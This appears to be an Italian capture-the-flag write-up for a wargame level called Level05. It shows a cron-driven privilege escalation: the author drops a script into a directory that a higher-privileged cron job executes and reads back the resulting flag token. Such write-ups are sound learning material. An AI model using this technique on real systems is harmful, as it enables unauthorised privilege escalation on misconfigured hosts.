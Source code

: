 # Level05
### 1 passaggio:
Al login arriva una notifica che abbiamo ricevuto un'email dunque con il comando
`cat /var/mail/level05` possiamo vedere il contenuto:
```bash
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
Abbiamo davanti un comando per cron, purtroppo non avendo i permessi di root non possiamo
vedere tutti i cron per ogni utente ma possiamo leggere lo script openarenaserver che contiene il
seguente script:
```bash
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

Esegue ogni script all'interno della cartella `/opt/openarenaserver/` e poi lo elimina, in effetti
creando un file all'interno di quella cartella dopo un po viene eliminato dunque abbiamo 
la certezza che il cron è attivo.

### 2 passaggio:
Con il comando:
```bash
echo "getflag > /tmp/flag" > /opt/openarenaserver/exploit ; chmod +x /opt/openarenaserver/exploit
```
facciamo eseguire al cron con i permessi giusti il comando getflag e l'output lo reindirizziamo nel file
`/tmp/flag` così dopo qualche minuto abbiamo il seguente output:
```bash
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
